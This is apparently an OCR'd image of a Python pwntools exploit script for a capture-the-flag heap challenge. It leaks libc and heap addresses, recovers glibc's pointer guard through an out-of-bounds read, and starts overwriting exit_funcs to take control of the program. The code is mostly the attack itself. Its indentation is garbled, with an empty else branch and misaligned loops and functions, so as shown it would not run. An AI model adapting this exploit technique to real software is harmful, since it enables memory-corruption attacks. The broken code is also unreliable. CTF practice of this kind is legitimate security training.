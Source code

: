 ```py
        p = process([exe.path])
        if args.GDB:
                # gdb.attach(p)
            pause()
    else:
        # p = remote("chal1.lagncra.sh", 8403)
    p = remote("localhost", 5000)

    # good luck pwning :)
    p.sendline(b"a"* 0x1000)

    def encrypt(pos, ptr):
            return (pos >> 12) ^ ptr

def decrypt(val):
        mask = 0xfff << 52
        while mask:
                v = val & mask
                val ^= (v >> 12)
        mask >>= 12
        return val

for i in range(2):
        p.sendline(b"4")
        p.sendline(numbers[i].encode())

    p.sendline(b"2")
p.sendline(b"2")
p.recvuntil(b"Lucky number 2: ")
leak = int(p.recvline())
print(hex(leak))
page_near_libc_base = leak - 0x306330
libc.address = page_near_libc_base + 0xeb000
print(hex(page_near_libc_base))

p.sendline(b"2")
p.sendline(b"3")
p.recvuntil(b"Lucky number 3: ")
leak = int(p.recvline())
print(hex(leak))
heap_base = leak - 0x13a90
print(hex(heap_base))


# leak ptr_guard
ptr_guard_address = int((page_near_libc_base + 0x33f0 - (heap_base + 0x13aa0)) / 8 + 1)
p.sendline(b"2")
p.sendline(str(ptr_guard_address).encode())
p.recvuntil(b"Lucky number")
p.recvuntil(b": ")
ptr_guard = int(p.recvline())
print(hex(ptr_guard))

rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

# modify exit_funcs
exit_funcs = int((page_near_libc_base + 0x306f18 - (heap_base + 0x13aa0)) / 8 + 1)
exit_funcs_arg_0 = int((page_near_libc_base + 0x306f20 - (heap_base + 0x13aa0)) / 8 + 1)
exit_funcs_arg_1 = int((page_near_libc_base + 0x306f28 - (heap_base + 0x13aa0)) / 8 + 1)
p.sendline(b"3")
p.sendline(str(exit_funcs).encode())
```